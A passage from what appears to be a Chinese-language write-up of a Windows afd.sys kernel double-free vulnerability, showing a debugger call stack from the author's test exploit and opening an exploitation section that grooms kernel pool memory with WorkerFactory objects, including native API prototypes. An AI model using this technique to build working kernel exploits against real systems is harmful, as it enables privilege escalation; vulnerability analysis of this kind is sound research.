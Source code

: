 ```
nt!ExFreePoolWithTag+0x1b1
nt!IoFreeMdl+0x70
afd!AfdReturnTpInfo+0xad
afd!AfdTliGetTpInfo+0x89
afd!AfdTransmitPackets+0x12e
afd!AfdDispatchDeviceControl+0x3b
nt!IofCallDriver+0x63
nt!IopSynchronousServiceTail+0x1f8
nt!IopXxxControlFile+0x6aa
nt!NtDeviceIoControlFile+0x2a
nt!KiFastCallEntry+0x12a
ntdll!KiFastSystemCallRet
ntdll!ZwDeviceIoControlFile+0xc
KERNELBASE!DeviceIoControl+0xf6
kernel32!DeviceIoControlImplementation+0x80
exp!main+0x117 [d:\vs2017\project\exp\exp\exp.cpp @ 59]
```  
  
  
以下是要释放的内存情况，可以看到要释放的这个内存处于Free状态：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FuY06PrMyiaq2pEM5XX2vO9rWPicAZcjooD6WMyxWdAeXKRuYCQMOC7LTn4INiafTbRphJRkbW2L0Hg/640?wx_fmt=png "")  
#   
  
```
```  
##   
## 1.利用思路  
  
  
要利用该漏洞，需要用到WokerFactory对象，该对象可以通过以下函数创建，WorkerFactory占0x78大小的内存，在加上0x8大小的_POOL_HEADER和对象头，共会占有0xA0字节：  
```
typedef NTSTATUS(NTAPI *lpfnNtCreateWorkerFactory)(PHANDLE WorkerFactoryHandleReturn,
                           ACCESS_MASK DesiredAccess,
                           POBJECT_ATTRIBUTES ObjectAttributes,
                           HANDLE CompletionPortHandle,
                           HANDLE WorkerProcessHandle,
                           PVOID StartRoutine,
                           PVOID StartParameter,
                           ULONG MaxThreadCount,
                           SIZE_T StackReserve,
                           SIZE_T StackCommit);
```  
  
  
对于WorkerFactory对象，可以调用NtSetInformationWorkerFactory，该函数定义如下：  
```
typedef NTSTATUS(NTAPI *lpfnNtSetInformationWorkerFactory)(HANDLE WorkerFactoryHandle,
                               LONG WorkerFactoryInformationClass,
                                   PVOID WorkerFactoryInformation,
                               ULONG WorkerFactoryInformationLength);
```  
  